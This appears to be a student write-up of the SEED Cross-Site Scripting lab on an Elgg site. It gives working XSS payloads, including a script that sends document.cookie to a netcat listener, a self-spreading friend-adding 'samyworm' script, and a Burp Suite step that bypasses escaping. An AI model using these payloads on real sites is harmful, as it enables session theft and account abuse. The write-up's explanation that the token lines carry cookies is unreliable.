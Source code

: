 # Ch5 Cross.Site Scripting (XSS) Attack Lab on Elgg WebApp

##  Task 1: Posting a Malicious Message to Display an Alert Window

1. After build and run the containers, go to http://www.seed-server.com/

2. Access a profile (e.g., alice) using the correspondent credentials.

3. Edit the profile and add one of the following strings inside the field "Brief description":

```js
<script>alert('XSS');</script>
```
```js
<script type="text/javascript" src="http://0.0.0.0:8000/Ch5_XSS_Lab.20220930/myscripts.js"> </script>
```

4. In the first case, just reload the profile page and you will see the alert appearing.

5. In the second case, create a http server on your local machine lunching the command:

```console
python3 -m http.server 8000
```

6. Create a js file myscripts.js inside the folder Ch5_XSS_Lab.20220930 with just the following line of code:

```js
alert('XSS');
```

7. Reload the profile page and you will see the alert appearing.

## Task 2: Posting a Malicious Message to Display Cookies

Just substituting in the previous task

```js
<script>alert(document.cookie);</script>
```

Or in the file scripts.js:

```js
alert(document.cookie);
```

## Task 3: Stealing Cookies from the Victim’s Machine

1. Start the TCP server using:
```console
nc -lknv 5555
```

2. Just substituting in the previous task:
```js
<script>
document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script>
```

3. Or edit the profile and add the following strings inside the field "Brief description":

```js
<script type="text/javascript" src="http://0.0.0.0:8000/Ch5_XSS_Lab.20220930/myscripts.js"> </script>
```

4. Create a http server on your local machine lunching the command:

```console
python3 -m http.server 8000
```

5. And put in the file scripts.js:
```js
document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
```

## Task 4: Becoming the Victim’s Friend

I use the following script:
```js
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; // (1)
        var token="&__elgg_token="+elgg.security.token.__elgg_token; // (2)
        var guid="add?friend="+elgg.page_owner.guid;
        //Construct the HTTP request to add Samy as a friend.
        var sendurl="http://www.seed-server.com/action/friends/"+ guid + ts + token + ts + token;
        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

1. Explain the purpose of Lines (1) and (2), why are they are needed?

You need code Lines (1) and (2) to append to the URL the victim’s cookies which are employed to identify the victim, i.e., the user, which will add Samy as a friend.

2. If the Elgg application only provide the Editor mode for the “About Me” field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

### Method 1 using "Brief Description" field
Using the same trick of exercie 1, we paste in the "Brief Description" field the following script:
```js
<script type="text/javascript" src="http://0.0.0.0:8000/Ch5_XSS_Lab-20220930/samyworm.js"></script>
```

Where samyworm.js contains the following code:
```js
window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; // (1)
    var token="&__elgg_token="+elgg.security.token.__elgg_token; // (2)
    var guid="add?friend="+elgg.page_owner.guid;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/"+ guid + ts + token + ts + token;
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
```

### Method 2 using "Description" field

I modify the Samy profile, adding in the "Description" field:
```js
<script type="text/javascript" src="http://0.0.0.0:8000/Ch5_XSS_Lab-20220930/samyworm.js"></script>
```
And before save the updates, I start Burp Suite in intercepting mode. So, after clicking "Save" on the seed-server site, I intercept the packet that want to update the "Description" field. In Burp I can see it, and in particular I notice the following string:
```js
<p>&lt;script type="text/javascript" src="http://0.0.0.0:8000/Ch5_XSS_Lab-20220930/samyworm.js"&gt;&lt;/script&gt;</p>
```

So I modify this string with the correct one:
```js
<script type="text/javascript" src="http://0.0.0.0:8000/Ch5_XSS_Lab-20220930/samyworm.js"></script>
```

And forward the modified packet. Now when a user reach the samy profile, the samyworm.js file is executed, and they will became friend.